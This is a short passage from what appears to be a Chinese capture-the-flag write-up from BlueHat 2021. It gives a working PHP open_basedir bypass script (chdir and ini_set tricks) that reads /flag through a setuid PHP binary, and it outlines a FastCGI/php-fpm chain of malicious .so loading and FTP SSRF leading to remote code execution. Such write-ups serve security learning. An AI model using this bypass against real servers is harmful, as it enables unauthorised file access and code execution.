 没想到php就有s权限，直接运行即可

写文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(file_get_contents("/flag"));
```

直接运行

![flag](bluehat2021/image-20210503145751850.png)

GET IT

关于phpfpm与FastCGI模式的研究建议仔细看看部分参考文章，总的来说就是

FastCGI加载并调用hpdoger.so->bypass base_opendir->ftp-ssrf请求恶意ftp服务->本地php-fpm->rce

---
